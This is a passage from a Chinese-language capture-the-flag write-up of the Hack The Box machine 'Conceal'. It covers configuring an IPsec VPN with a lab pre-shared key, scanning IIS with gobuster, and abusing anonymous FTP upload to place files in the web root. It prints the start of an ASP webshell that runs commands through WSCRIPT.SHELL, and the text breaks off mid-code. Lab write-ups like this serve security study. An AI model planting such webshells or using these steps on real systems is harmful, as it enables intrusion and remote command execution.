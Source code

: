 ```
echo '10.10.10.116 : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```


开始ipsec然后初始化连接：  
```
ipsec start
ipsec up rick-to-conceal
```
推荐直接
`ipsec start --nofork`
这样可以看到更多的信息

![]({{ site.url }}/assets/Conceal_116.assets/20201116152115784_2022129724.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152125508_2005557493.png)

成功接入vpn

重新扫描

![]({{ site.url }}/assets/Conceal_116.assets/20201116152138878_501461539.png)


ftp匿名

可以写入文件

80是IIS


`gobuster -u http://conceal.htb/ -w /usr/share/wordlists/dirb/common.txt`

![]({{ site.url }}/assets/Conceal_116.assets/20201116152254375_1338255145.png)

so，ftp上传的文件可以存储到upload文件夹下，在iis网页上激活

ftp匿名

传输了一个msfvenom的rshell，并不能执行成功。

![]({{ site.url }}/assets/Conceal_116.assets/20201116152413249_1457986984.png)


所以换思路上传一个webshell

webshell.asp

```html
<!--
ASP Webshell
Working on latest IIS
Referance :-
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp
http://stackoverflow.com/questions/11501044/i-need-execute-a-command-line-in-a-visual-basic-script
http://www.w3schools.com/asp/
-->






<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")
Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
```
